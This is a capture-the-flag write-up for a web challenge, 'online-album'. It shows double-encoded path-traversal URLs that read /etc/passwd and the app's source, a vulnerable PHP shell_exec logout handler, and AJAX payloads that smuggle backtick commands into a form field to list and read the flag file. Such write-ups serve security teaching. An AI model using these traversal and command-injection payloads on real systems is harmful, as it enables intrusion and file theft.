 # online-album (100pts, 41 solved) Web [Hard]

## First look
When we open the website, we need to create an account or login. After doing that, we can view some images of cars and pictures of aliens. When we click on such an image, we go to a page with the raw image data. We also notice that we get logged out after 5 minutes.

## Solving
When we look at the page source, we see some `Debug` value:
```
MS5qcGVn.5fb81e89d041f
Mi5qcGVn.5fb81e89d042a
My5qcGVn.5fb81e89d042c
NC5qcGVn.5fb81e89d042e
NS5qcGVn.5fb81e89d042f
```
Which decoded as base64 results in:
```
1.jpeg
2.jpeg
...
```
When using double encoded values to traverse the path: `%252e%252e%252f` (`/album/%252e%252e%252f`) we can see the contents of each folder. We can actually use the same trick in the download thing to trigger `LFI` (`/download/%252e%252e%252f/%252e%252e%252f/%252e%252e%252f/%252e%252e%252f/%252e%252e%252f/etc/passwd`).
Combining both tricks, allows us to read the source code by first reading `/album/%252e%252e%252f` we find `../routes` and then `../web.php` -> `/download/%252e%252e%252f/routes/web.php`. Here we find `API` paths, so let's read them: `/download/%252e%252e%252f/app/Http/Controllers/HomeController.php`.  
In here we see the `auto_logout` function which executes a `shell_exec`:
```php
public function auto_logout(Request $request)
{
    Auth::logout();
    //delete file after logout
    $cmd = 'rm "'.storage_path().'/framework/sessions/'.escapeshellarg($request->logut_token).'"';
    shell_exec($cmd);
}
```
And `escapeshellarg` only escapes and adds singlequotes, which we can bypass using backticks or normal quotes.  
_Note: I tried to use `curl` and other ways to connect to other servers, but that won't work_  

So we need to somehow trigger the `auto-logout` path. We can just copy the code from the original source (At the bottom of every page) and modify it a bit:
```js
$.ajax({
    type: "POST",
    url: "/auto-logout",
    success: function(result) {},
    data: {
        "_token": "VALID TOKEN",
        "logut_token": "`ls -la ../ > /tmp/1.txt | sleep 600`",
    }
});
```
We have to make sure `_token` is a valid token or the code won't execute. I also added a `sleep`, so we don't need to login every time.  
We can then use the download trick to read the file: `/download/%252e%252e%252f/%252e%252e%252f/%252e%252e%252f/%252e%252e%252f/%252e%252e%252f/tmp/1.txt`
Here we find `.flag` and we can use the same trick to read the flag:
```js
$.ajax({
    type: "POST",
    url: "/auto-logout",
    success: function(result) {},
    data: {
        "_token": "VALID TOKEN",
        "logut_token": "`ls -la ../.flag > /tmp/1.txt | sleep 600`",
    }
});
```
We find a file named `.asdpifsudyg8husijdaisonfudbigfhsdijispacdnvsubfhd` and we can read from it again using the same way:
```js
$.ajax({
    type: "POST",
    url: "/auto-logout",
    success: function(result) {},
    data: {
        "_token": "VALID TOKEN",
        "logut_token": "`cat ../.flag/.asdpifsudyg8husijdaisonfudbigfhsdijispacdnvsubfhd > /tmp/1.txt | sleep 600`",
    }
});
```
Where we get our flag: `DCTF{e620eae38b481f81a98b37fcccbb3ca0e52dd2469524f54128fcb1c9dd115814}`